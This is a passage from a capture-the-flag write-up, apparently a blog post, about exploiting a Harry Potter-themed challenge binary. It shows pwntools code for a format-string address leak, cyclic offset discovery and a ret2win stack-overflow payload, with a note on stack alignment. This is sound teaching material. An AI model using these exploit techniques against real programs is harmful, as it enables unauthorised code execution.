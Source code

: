 Running the script again confirmed that the 45th pointer would always be the address of `main`. Now we have a memory leak, so let's calculate some offsets.

```python
io.sendline("%45$p")
main_addr = int(io.recvuntil(" enter your magic spell:", drop=True)[-12:].decode(), 16)
print(f"Address of main : {hex(main_addr)}")
base_addr = main_addr - main_offset
print(f"Executable base address : {hex(base_addr)}")
win_addr = base_addr+e.symbols['WINgardium_leviosa']
print(f"WINGardium Leviosa : {hex(win_addr)}")
```

## Stack Smashing

Now that we know the address of `WINGardium_leviosa` all we need to do is overwrite the return address in memory of the main function and return to `WINGardium_leviosa` from `AAAAAAAA`. First though, we need to know the offset from the start of the input buffer and the return address.

```python
g = cyclic_gen()
cyclic_payload = g.get(0xff+1) #0xff is the buffer size
pause()
io.sendline(cyclic_payload)
io.interactive()
```

Running this script and examining memory with lldb, we discover that the offset between the start of buffer and the return address is 264 bytes.

![offsets](@/assets/images/ctf/c2cctf-ghidra.png))

Now that we have our offsets, our memory leak, and we've identified our stack smashing vulnerability we're ready to perform our `ret2win` attack.

One thing to keep in mind is that we need to prepend the word 'Expelliarmus' to our attack; otherwise, the program exits without ever returning, rendering our return attack ineffective. Luckily this program is using the `gets` function which will continue reading past null bytes instead of terminating. This allows to prepend arbitrary content to pass a `strcmp` while still passing a buffer overflow payload.

So, lets craft our payload:

```python
offset = 264
required_text = b"Expelliarmus\x00"
payload = required_text + (264-len(required_text))*b"A" + win_addr.to_bytes(8, 'little')

io.sendline(payload)
io.interactive()
```

Uh-oh! When we run the script locally, we get an error: `exit code -11 (SIGSEGV)`. Looking at the debugger the program throws an error on `MOVAPS`. Taking a look at the first result on Google ([ROP Emporium](https://ropemporium.com/guide.html#Common%20pitfalls), it turns out that in some cases "The 64 bit calling convention requires the stack to be 16-byte aligned." So in order to align the stack we can add one more `ret` instruction to our chain, but how? We know that any section of code in memory can be executed by jumping to it. If we prepend the address of a `ret` instruction to our overflow payload, it will jump to and run the instruction. When we run the instruction for the second time it'll just pop another 8 bytes off the stack into the %rip register. So, let's just add a `ret` instruction to the chain.
